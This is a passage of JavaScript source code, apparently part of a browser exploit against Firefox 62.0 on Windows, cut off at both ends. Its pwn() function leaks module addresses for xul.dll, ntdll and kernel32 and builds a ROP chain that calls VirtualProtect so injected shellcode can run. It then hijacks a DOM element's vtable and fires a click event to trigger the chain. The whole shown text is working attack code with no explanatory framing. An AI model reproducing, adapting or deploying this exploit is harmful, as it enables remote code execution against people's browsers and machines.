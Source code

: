 ```JavaScript
        check: check,
        test: test,
    };
}
VERSION = '62.0';
function pwn() {
    var mem = setup();
    mem.test();
    var scratch_addr = mem.read64(mem.addrof(scratch_u8) + 0x38);
    var sc_offset = 0x20000 - scratch_addr % 0x1000;
    var sc_addr = scratch_addr + sc_offset
    scratch_u8.set(shellcode, sc_offset);
    var el = document.createElementNS('http://www.w3.org/2000/svg', 'image');
    var wrapper_addr = mem.addrof(el);
    var native_addr = mem.read64(wrapper_addr + 0x18);
    if (VERSION == '62.0') {
        var xul = native_addr - 0x31205f8;
        var ntdll = mem.read64(xul + 0x311CEE8) - 0x9a0e0 // NtQueryObject
        var kernel32 = mem.read64(xul + 0x3119B60) - 0x1a1c0 // GetModuleHandleW
        var pop_gadgets = [
            xul + 0xc712f, // pop rcx ; ret
            xul + 0x140222, // pop rdx ; ret
            xul + 0x611655, // pop r8 ; ret
            xul + 0xd1a6a1, // pop r9 ; ret
        ];
    } else {
        fail("Unknown version");
    }
    //print('xul.dll @ ' + hex(xul));
    //print('ntdll @ ' + hex(ntdll));
    //print('kernel32 @ ' + hex(kernel32));
    var gadget = ntdll + 0xA0705;
    var el = document.createElement('div');
    var el_addr = mem.read64(mem.addrof(el) + 0x20) * 2;
    var fake_vtab = scratch_addr;
    for (var i = 0; i < 100; ++i) {
        scratch_u32[2*i] = gadget % BASE;
        scratch_u32[2*i+1] = (gadget - gadget % BASE) / BASE;
    }
    var fake_stack = scratch_addr + 0x10000;
    var stack = [
        pop_gadgets[0],
        sc_addr,
        pop_gadgets[1],
        0x1000,
        pop_gadgets[2],
        0x40,
        pop_gadgets[3],
        scratch_addr,
        kernel32 + 0x193d0, // VirtualProtect
        sc_addr,
    ];
    for (var i = 0; i < stack.length; ++i) {
        scratch_u32[0x10000/4 + 2*i] = stack[i] % BASE;
        scratch_u32[0x10000/4 + 2*i + 1] = stack[i] / BASE;
    }
    mem.write64(el_addr + 0x10, fake_stack); // RSP
    mem.write64(el_addr + 0x50, pop_gadgets[0] + 1); // RIP = ret
    mem.write64(el_addr, fake_vtab);
    el.addEventListener('click', function (e) {}, false);
    el.dispatchEvent(new Event('click'));
}
function print_error(e) {
```